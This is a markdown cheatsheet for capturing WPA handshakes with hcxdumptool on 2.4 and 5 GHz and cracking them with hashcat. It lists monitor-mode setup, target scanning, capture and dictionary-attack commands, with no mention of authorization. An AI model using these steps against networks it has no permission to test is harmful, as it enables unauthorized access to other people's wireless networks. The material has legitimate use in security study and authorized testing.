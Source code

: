 
```markdown
# Wi-Fi Handshake Capture & Crack Cheatsheet

## Table of Contents

## Table of Contents

- [Preliminary Commands & Information Retrieval](#preliminary-commands--information-retrieval)
- [Capture & Conversion Phase](#capture--conversion-phase)
- [Additional Scans & Information](#additional-scans--information)
- [Cracking Phase](#cracking-phase)
- [5GHz Network Capturing Cheat Sheet](#5ghz-network-capturing-cheat-sheet)


---

## Preliminary Commands & Information Retrieval

### Secure Copy from Remote Device

```bash
scp -r root@172.16.42.1:/root/example.pcapng /home/username/Desktop
```

📖 Downloads files from remote devices using SCP.

### Check Wireless Interfaces

```bash
iwconfig
```

📖 Displays wireless network interface details.

### Kill Interfering Services

```bash
airmon-ng check kill
```

📖 Stops services that might interfere with wireless tools.

---

## Capture & Conversion Phase

### Set Wireless Card to Monitor Mode

```bash
sudo ip link set wlan0 down
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up

# Set back to normal
ip link set wlan0mon down
iwconfig wlan0mon mode managed
ip link set wlan0 up
```

📖 Prepares the wireless card for capture.

### Capture Handshakes with hcxdumptool

```bash
hcxdumptool -i wlan1 -o dumpfile.pcapng --active_beacon --enable_status=15 //OLD
hcxdumptool -i wlan1 -w dumpfile.pcapng --disable_deauthentication --disable_beacon //NEW
hcxdumptool -i wlan1 -w dumpfile.pcapng --disable_deauthentication --rds=1//NEW
```

📖 Captures packets from networks.

### Convert Captured File for Hashcat

```bash
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
```

📖 Converts packets for password cracking.

---

## Additional Scans & Information

### Scan for Nearby Networks

```bash
hcxdumptool --do_rcascan -i wlan1
```

📖 Scans and displays nearby networks.

---

## Cracking Phase

### Crack with Hashcat

```bash
hashcat -m 22000 hash.hc22000 wordlist.txt
```

📖 Uses hashcat to attempt password cracks.

---

💡 `sudo systemctl stop NetworkManager.service`  
💡 `sudo systemctl stop wpa_supplicant.service`

---

# 5GHz Network Capturing Cheat Sheet

## 1. Install Necessary Tools

```bash
sudo apt-get install hcxdumptool hcxtools
```

## 2. Check for 5GHz Support

```bash
iw list
```

## 3. Enable Monitor Mode

```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```

## 4. Set to 5GHz Channel

```bash
sudo iw dev wlan0 set channel 36
```

## 5. Identify Target Networks

```bash
sudo hcxdumptool -i wlan0 --scan
```

## 6. Capture Traffic

```bash
sudo hcxdumptool -i wlan0 --enable_status=1 -o output.pcapng --filterlist=filterlist.txt --filtermode=2
```

## 7. Analyze Captured Traffic

```bash
hcxpcaptool -z output.hccapx output.pcapng
```

## 8. Troubleshooting

- Check regulatory domain:

```bash
sudo iw reg get
sudo iw reg set US
```

- Check for nearby networks:

```bash
sudo iw dev wlan0 scan | grep -E '^(BSS|channel)'
```

- Check adapter capabilities:

```bash
iw list
```

## 9. Switch Back to 2.4GHz

```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo iw dev wlan0 set channel 6
sudo ip link set wlan0 up
```

## 10. List 2.4GHz Channels

```bash
iw phy phy0 channels
# or
iwlist wlan0 channel
```
```

Feel free to modify or add any additional information!
